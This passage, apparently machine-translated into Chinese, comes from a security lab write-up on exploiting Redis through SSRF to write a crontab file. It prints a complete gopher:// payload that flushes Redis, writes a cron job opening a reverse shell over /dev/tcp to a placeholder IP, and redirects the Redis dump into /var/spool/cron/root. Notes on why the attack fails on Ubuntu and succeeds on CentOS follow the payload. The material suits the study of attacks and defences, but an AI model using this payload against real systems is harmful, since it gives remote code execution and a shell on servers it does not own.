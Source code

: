# 雷迪斯和 SSRF

# 雷迪斯-cron‌

Cron 是 Linux 上的一个任务调度器，cron 会根据设定的时间定期执行使用`crontab`命令设定的命令。

Cron 将 crontab 文件存储在`/var/spool/cron/<Username>`(Centos)`/var/spool/cron/crontabs/<Username>`(Ubuntu)中，系统范围的 crontab 文件存储在`/etc/crontabs`中。‌

实验将使用两种不同的操作系统，因为 Centos 上的 cron 和 Ubuntu 之间的行为略有不同。

```
$ python payload_redis.py cronReverse IP >Port >Centos/Ubuntu (Default Centos)gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2477%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/b%27XXX.XXX.XXX.XXX%27/8080%200%3E%261%27%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A‌
```

**Ubuntu 实验室** ‌

Redis 将使用 0644 权限写入文件，而 ubuntu 上的 crontab 文件预计将使用 0600 权限，因此它会在系统日志中给出警告。

![](img/1f5d5aef458b29b6bc1d928ac3f471cc.png)

此外， *Redis RDB* 文件中存在*伪*数据，导致 cron 因为存在无效语法而忽略 crontab 文件，所以即使 crontab 文件拥有 *0600* 权限，也不会被执行。

![](img/630ce2ac768d12ed8d91da2b9fe20380.png)

Cron 语法错误

> 通过 SSRF 用 Redis 编写 crontab 文件在 Ubuntu 中无法正常工作，因为 Ubuntu 中的 crontab 文件需要 0600 权限才能执行，并清除导致语法错误的伪数据。

**Centos 实验室**

在 Centos 上，即使 crontab 文件具有权限 0644 并且存在虚拟数据，cron 仍将被执行，以便它可以获得反向 shell。

![](img/81d4df5ad102bf68f76a9aa41efb7f22.png)

# Redis — SSH 公共密钥
